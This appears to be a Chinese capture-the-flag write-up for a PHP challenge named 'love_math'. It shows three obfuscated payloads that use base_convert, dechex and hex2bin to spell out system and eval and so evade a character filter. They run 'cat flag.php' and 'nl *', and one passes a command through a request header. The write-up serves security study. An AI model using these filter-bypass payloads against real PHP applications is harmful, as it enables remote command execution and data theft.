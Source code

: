 # love_math

> base_convert(1751504350,10,36)可以把参数1从10进制转化成以36进制表示字符串，如(int)1751504350 --> system \
dechex(46)可以把10进制转化成以16进制表示的字符串，如(int)46 --> (str)2e \
hex2bin('2e')可以把16进制字符串转化成ascii字符，如(str)2e --> (str).


payload1:  
system('cat flag.php')     # 单引号'自动添加，但是这个payload太长，大于80，不能用。
```php
($pi=base_convert)(1751504350,10,36)(($pi(1438255411,14,34)(2763617420666c61672e70687027)
#                    system         (      hex2bin           (   'cat flag.php'  )  )
```

payload2:  
system('nl \*') -> system(hex2bin(dechex(1852579882)))
```php
($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))
#                    system         (     hex2bin                 (  nl *  )  )
```


pyaload3:  
getallheaders(){1}可以取得headers中名为1的元素，我们定义1这个元素，然后在header头部任意地方加上1: cat flag.php即可。
```php
($pi=base_convert)(696468,10,36)($pi(8768397090111664438,10,30)(){1})
#                    eval       ( getallheadehi --> getallheaders () )
#                      Windows中10进制到30-36进制转换都存在溢出，getallheaders会变成getallheadehi
```
![payload3](payload3.jpg)
